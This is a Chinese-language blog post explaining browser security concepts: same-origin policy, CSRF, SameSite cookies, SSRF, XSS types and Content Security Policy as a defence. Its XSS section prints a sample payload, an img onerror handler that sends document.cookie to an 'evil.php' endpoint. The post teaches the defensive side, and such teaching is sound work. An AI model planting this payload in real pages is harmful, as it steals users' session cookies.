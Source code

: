 ```yaml
---
title: web security
date: 2020-06-15 17:05:45
tags: Web
---
```


# 同源协议（SOP)
所谓的同源协议，就是阻止程序员访问第三方数据的一种手段，对浏览器本身是没有任何的影响。换句话说，图片该显示显示，但你无法获取到它的二进制，iframe该展示展示，但你获取不到它的节点，ajax该读取读取，但你获取不到它的响应文。

同源协议可以
* 跨域写操作
* 跨域嵌入操作
不可以
* 跨域读操作

# CSRF

（Cross-site request forgery）跨站请求伪造，是一种常见的攻击方式。是指 A 网站正常登陆后，cookie 正常保存，其他网站 B 通过某种方式调用 A 网站接口进行操作，A 的接口在请求时会自动带上 cookie。
上面说了，SOP 可以通过 html tag 加载资源，而且 SOP 不阻止接口请求而是拦截请求结果，CSRF 恰恰占了这两个便宜。

```

// 使用xhr请求会受到sop限制，不会带上cookie
 <script>
        var xhr = new XMLHttpRequest();
        xhr.onreadystatechange = function() {//服务器返回值的处理函数，此处使用匿名函数进行实现
            if (xhr.readyState == 4 && xhr.status == 200) {//
                var responseText = xhr.responseText;
                document.getElementById('result').innerHTML = responseText;
            }
        };
        xhr.open("GET", "http://dummy.restapiexample.com/api/v1/employees", true);//提交get请求到服务器
        xhr.send(null);
    </script>

  // 使用img的tag请求会带上cookie
    <img src="http://dummy.restapiexample.com/api/v1/employees"/>
```

- CSRF自动防御策略：同源检测（Origin 和 Referer 验证）。
- CSRF主动防御措施：Token验证 或者 双重Cookie验证 以及配合Samesite Cookie。
- 保证页面的幂等性，后端接口不要在GET页面中做用户操作。


samesite cookie

第三方网站引导发出的 Cookie，就称为第三方 Cookie。它除了用于 CSRF 攻击，还可以用于用户追踪。
Cookie 的SameSite属性用来限制第三方 Cookie，从而减少安全风险。但可能造成非常不好的用户体验。比如，当前网页有一个 GitHub 链接，用户点击跳转就不会带有 GitHub 的 Cookie，跳转过去总是未登陆状态。
<!-- ![](/images/web_security/same_site.png) -->

# SSRF

SSRF，服务器端请求伪造，服务器请求伪造，是由攻击者构造的漏洞，用于形成服务器发起的请求。通常，SSRF攻击的目标是外部网络无法访问的内部系统。SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。利用的是服务端的请求伪造。ssrf是利用存在缺陷的web应用作为代理攻击远程和本地的服务器

# XSS

XSS 跨站脚本攻击，用户注入恶意的代码，浏览器和服务器没有对用户的输入进行过滤，导致用户注入的脚本嵌入到了页面中。由于浏览器无法识别这些恶意代码正常解析执行，攻击者的恶意操作被成功执行，比如可以获取用户的cookie数据然后发送给自己或者冒充正常用户向被攻击的服务器发送请求。


xss攻击分类

* 反射型：攻击者构造一个带有恶意代码的url链接诱导正常用户点击，服务器接收到这个url对应的请求读取出其中的参数然后没有做过滤就拼接到Html页面发送给浏览器，浏览器解析执行
* 存储型： 攻击者将带有恶意代码的内容发送给服务器（比如在论坛上发帖），服务器没有做过滤就将内容存储到数据库中，下次再请求这个页面的时候服务器从数据库中读取出相关的内容拼接到html上，浏览器收到之后解析执行
* dom型：dom型xss主要和前端js有关，是前端js获取到用户的输入没有进行过滤然后拼接到html中

xss危害
1. cookie劫持（窃取cookie）
2. 钓鱼，利用xss构造出一个登录框，骗取用户账户密码。

利用错误信息和搜索结果的反射进行的 XSS，称为反射型 XSS
盗取用户 cookie，例如插入这样一段代码
```
<img
  src="xx"
  onerror="post('../evil.php?cakemonster=' + escape(document.cookie))"
/>
```

还有另一种 XSS 是储存型 XSS。储存型也比较容易理解，攻击者把恶意脚本提交到被害服务器，并成功储存，所有人访问特定页面都会遭到攻击。

总之，如果开发者没有将用户输入的文本进行合适的过滤，就贸然插入到 HTML 中，这很容易造成注入漏洞。攻击者可以利用漏洞，构造出恶意的代码指令，进而利用恶意代码危害数据安全。

XSS防御：

对于XSS攻击来说，通常有两种方式来进行防御。

1、转义字符；
2、CSP安全内容策略：CSP 本质上就是建立白名单，开发者明确告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截是由浏览器自己实现的。我们可以通过这种方式来尽量减少 XSS 攻击。

# Content Security Policy

CSP 诞生的主要目的就是防御 XSS 攻击. 严格的 CSP 在 XSS 的防范中可以起到以下的作用：
* 禁止加载外域代码，防止复杂的攻击逻辑。
* 禁止外域提交，网站被攻击后，用户的数据不会泄露到外域。
* 禁止内联脚本执行（规则较严格，目前发现 GitHub 使用）。
* 禁止未授权的脚本执行（新特性，Google Map 移动版在使用）。
* 合理使用上报可以及时发现 XSS，利于尽快修复问题。

CSP 的作用
1. 不允许内联script执行
2. 不允许加载非信任的脚本资源
3. 不允许向非信任的url发送信息

通常可以通过两种方式来开启 CSP：

* 设置 HTTP Header 中的 Content-Security-Policy
* 设置 meta 标签的方式

CSP doesn't (and can't) prevent CSRF. Even if you forbid all scripts from executing, CSRF attacks are still possible if no per-request tokens are used
